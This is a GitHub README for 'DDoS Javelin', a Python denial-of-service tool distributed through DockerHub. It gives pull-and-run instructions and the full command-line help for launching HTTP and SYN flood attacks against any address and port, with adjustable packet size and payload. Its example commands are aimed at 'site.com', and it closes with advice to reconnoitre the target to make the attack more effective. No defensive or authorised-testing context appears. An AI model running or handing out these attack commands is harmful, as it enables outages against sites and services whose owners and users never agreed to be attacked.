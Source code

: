 # DDoS Javelin

Python based DDoS tool.
Released on [DockerHub](https://hub.docker.com/r/parfeniukink/ddos-javelin)


### 3-rd party uses
- [requuests](https://pypi.org/project/requests/)
- [scapy](https://pypi.org/project/scapy/)


</br>


## Setup guides

### With Docker

<b>Pull the image from DockerHub:</b>
```bash
For arm architecture:
docker pull parfeniukink/ddos-javelin:arm64

For x64 architecture:
docker pull parfeniukink/ddos-javelin:amd64
```

<b>Run the script:</b>
```bash
docker run --name ddos-javelin --rm -d --cpus 1 -m 9999999m --pull always parfeniukink/ddos-javelin:arm64 python src/run.py {cli_properties}
```

<b>Options description:</b>
- `--name` - call your container. Set if you need to stop the container in one command:
    - `docker stop $(docker ps -q --filter="name=ddos-javelin")`
- `--rm` - remove container on stop
- `--cpus` - The amount of CPUs used by Docker.
    - Recommended max parameter: `--cpus $(getconf _NPROCESSORS_ONLN)`
- `--m` - The RAM limitation in Megabytes. Recommended max parameter: `-m 999999m`
- `--pull always` - pull image from DockerHub if not exist locallyjlk



</br>


### Without Docker

<b>Requirements:</b>
- [Python3.9](https://www.python.org/downloads/release/python-3912/)

<b>Install deps</b>
```bash
# Install poetry dependency manager 👉 https://python-poetry.org
pip3 install -U poetry

# Install dependencies
poetry install

# Activate the local environment
poetry shell
```

<b>Run script</b>
```bash
python src/run.py {cli_properties}
```

### CLI payloads description
```bash
$ ddos_javelin git:(12-add-readme-file) ✗ python src/run.py --help

usage: run.py [-h] --attack ATTACK_TYPE -a ADDRESS -p PORT [-s SIZE] [--hs HTTP_SCHEMA] [--hm HTTP_METHOD] [--pl PAYLOAD] [--debug]

DDoS Javelin arguments parser

optional arguments:
  -h, --help            show this help message and exit
  --attack ATTACK_TYPE, --attack_type ATTACK_TYPE
                        Attack type. Allowed values HTTP | SYN_FLOOD
  -a ADDRESS, --address ADDRESS
                        Examples: google.com | 192.168.1.2
  -p PORT, --port PORT  Examples: 443 | 8000 | 80
  -s SIZE, --size SIZE  The size of requested package. Allowed values: LOW | MEDIUM | HIGH
  --hs HTTP_SCHEMA, --http_schema HTTP_SCHEMA
                        HTTP schema. Allowed values: http | https. Default HTTPS
  --hm HTTP_METHOD, --http_method HTTP_METHOD
                        HTTP method. Allowed values: GET | POST | HEAD. Default GET
  --pl PAYLOAD, --payload PAYLOAD
                        Custom payload. If not selected use randomly-generated. Allowed type is python dictionary. Example: '{"username": "admin", "pass": "admin"}'
  --debug               Set this flag if you develop something.It will reduce the amount of used CPUs to 1 and also it will not create any threads
```


## Examples
<b>Script running examples</b>
```bash
src/run.py --attack http --address site.com --port 443 --payload '["search", "category"]'
src/run.py --attack syn_flood --address site.com
```

<b>Payload examples:</b>
```bash
```


## Notes:
DDoS attack requires prior reconnaissance of the target and is most effective in establishing the appropriate <b><i>type of attack (`--attack`)</i></b> and <b><i>payload (`--payload`)</b></i>
